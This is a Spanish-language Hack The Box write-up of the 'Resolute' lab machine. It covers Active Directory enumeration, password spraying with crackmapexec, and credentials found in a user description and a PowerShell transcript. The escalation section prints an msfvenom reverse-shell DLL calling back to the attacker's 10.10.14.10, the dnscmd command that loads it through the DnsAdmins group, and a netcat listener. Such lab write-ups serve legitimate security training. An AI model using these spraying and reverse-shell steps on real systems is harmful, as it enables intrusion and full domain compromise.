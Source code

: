 ```yaml
---
layout: single
title: HTB-Resolute
excerpt: "WriteUp con metodología de la máquina Resolute."
date: 2021-12-07
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/WriteUps/Resolute.png
categories:
  - WriteUps
tags:
  - HTB

---
```



<center><img src='/assets/images/WriteUps/Resolute.png'></center>

IP -> 10.10.10.169

# Reconocimiento
## Nmap
Utilizamos [nmap](/Nmap/) y obtenemos los siguientes resultados.
[Resolute Nmap Result](/assets/files/WriteUps/Resolute.txt)

## Crackmapexec
Usamos [Crackmapexec](/Crackmapexec/) para enumerar información del [Active Directory](/Active-Directory/) y añadimos el dominio al /etc/hosts
> OS: Windows Server 2016 x64
> Dominio: megabank.local
> Signing: True
> SMBv1: True


## smbclient y smbhost
Listamos servicios del [SMB](/SMB/) mediante un [null session](/SMB/
> No encontramos nada


## rpc
Mediante el servicio [rpc](/rpc/) enumeramos los usuarios que pertenecen al [Active Directory](/Active-Directory/)

## kerberos
Validamos los usuarios que hemos obtenido mediante [Kerberos](/Kerberos/) con la utilidad [kerbrute]((/Kerberos/)

## rpc
Mediante [rpc](/rpc/) enumeramos los grupos del [Active Directory](/Active-Directory/)
> Obtenemos un listado de usuarios

## crackmapexc
Con la herramienta [Crackmapexec](/Crackmapexec/) validamos los usuarios y tomando como contraseña los mismos usuarios

```bash
crackmapexec smb 10.10.10.169 -u users -p users
```

## GetNPUsers.py
Probamos un [ASREPRoast](/ASREPRoast/) con la herramienta [GetNPUsers.py]((/ASREPRoast/)

## rpc
Seguimos enumerando mediante [rpc](/rpc/) las descripciones de los usuarios.

> marko: Account created. Password set to Welcome123!

## Crackmapexec
Con [Crackmapexec](/Crackmapexec/) validamos si es válida la credencial
> Es incorrecta

Pero vamos a probar con todo el listado de usuarios
```bash
crackmapexec smb 10.10.10.169 -u users -p 'Welcome123!' --continue-on-success
```

> Melanie tiene esta credencial

Aunque Melanie tiene esta credencial, no tiene "pwned" por smb, por lo tanto no podemos conectarnos a una shell interactiva.

## GetUserSPN.py
Probamos un [Kerberoasting](/Kerberoasting/) Attack con la credenciales obtenidas pero no obtenemos ningun TGS

## Crackmapexec
Probamos las credenciales por [winrm](/winrm/)
```bash
crackmapexec winrm 10.10.10.169 -u 'melanie' -p 'Welcome123!'
```

> PWNED

# Exploitation
## Evil-winrm
[[winrm](/winrm/). Nos conectamos a la máquina como el usuario **melanie**.

> user.txt

# User-pivoting
Enumeramos el sistema.
```powershell
whoami /priv
net user melanie
whoami /all
net users
cd C:\\
ls
```
> Poco contenido
```powershell
ls -force
```
> Más contenido
> directorio: PSTranscripts
Listamos todo lo que hay bajo esae directorio
```powershell
ls -force PSTranscripts/ -recurse
```
> Archivo \*.txt
Mostramos el contenido del txt
```powershell
type <file>.txt
```
> PowerShell LOG
> Credenciales: ryan -> Serv3r4Admin4cc123!

## Crackmapexec
Probamos las credenciales en crackmapexec tanto por [SMB](/SMB/) como por [winrm](/winrm/)

> SMB: PWNED
> WINRM: PWNED

# Exploitation
## Evil-winrm
[[winrm](/winrm/). Nos conectamos a la máquina como el usuario **ryan**.

# Privilege-escalation
Enumeramos el directorio del usuario ryan y los privilegios del usuario.

```powershell
whoami /priv
net user melanie
whoami /all
net users
dir Desktop
```

> Desktop: note.txt
> Group: DnsAdmins

Buscamos en hacktricks acerca del [DnsAdmins](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#dnsadmins)

Nos permite cargar una DLL maliciosa.

# Exploitation

## msfvenom
Nos creamos la dll maliciosa con msfvenom.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f dll -o rev.dll
```

Creamos un servicio compartido con [[smbserver.py]]

Cargamos la dll
```powershell
dnscmd.exe /config /serverlevelplugindll \\10.10.14.10\smbFolder\rev.dll
```

Reniciamos el servicio
> Necesitamos el hostname
```powershell
hostname
```

> Hostname: Resolute

Nos ponemos en escucha

```bash
rlwrap nc -nlvp 443
```

Reiniciamos el servicio

```powershell
sc.exe \\Resolute stop dns
sc.exe \\Resolute start dns
```


> root.txt


---

Escrito el 07-12-2021 a las 08:00 pm por creep33.
